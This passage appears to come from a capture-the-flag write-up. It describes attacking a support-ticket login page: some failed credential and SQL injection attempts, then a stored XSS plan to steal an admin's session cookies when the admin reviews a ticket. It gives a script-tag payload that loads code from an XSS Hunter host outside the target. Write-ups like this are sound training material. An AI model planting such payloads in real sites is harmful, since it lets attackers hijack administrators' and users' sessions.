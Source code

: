 ![](./03.png)

I had no success after trying some username and password combinations. I also tried some `SQLi` payloads with no result.

## XSS

I don't have a lot of experience with XSS vulnerabilities, but the phrase **"An admin will review your ticket shortly."** triggered an idea. This line is a hint I think. What if we can use a stored XSS payload to steal the admins login session when they browse our ticket?

We can use `https://xsshunter.com/app` to create a payload that will steal the admins cookies for us. Let's try the payload:

```html
"><script src=https://kahari.xss.ht></script>
```
